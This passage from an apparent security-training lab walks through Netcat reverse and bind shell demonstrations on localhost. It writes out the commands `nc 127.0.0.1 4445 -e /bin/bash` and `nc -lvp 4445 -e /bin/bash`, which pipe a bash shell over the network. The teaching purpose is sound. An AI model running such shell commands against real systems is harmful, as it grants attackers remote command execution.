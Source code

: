     ![A screenshot depicts the two terminals side by side.](images/netcat2.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 ![A screenshot depicts the command in the terminal window.](images/netcat3.png)
	
5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window.

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.

1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 ![A screenshot depicts the command and its result in the terminal.](images/netcat4.png)
	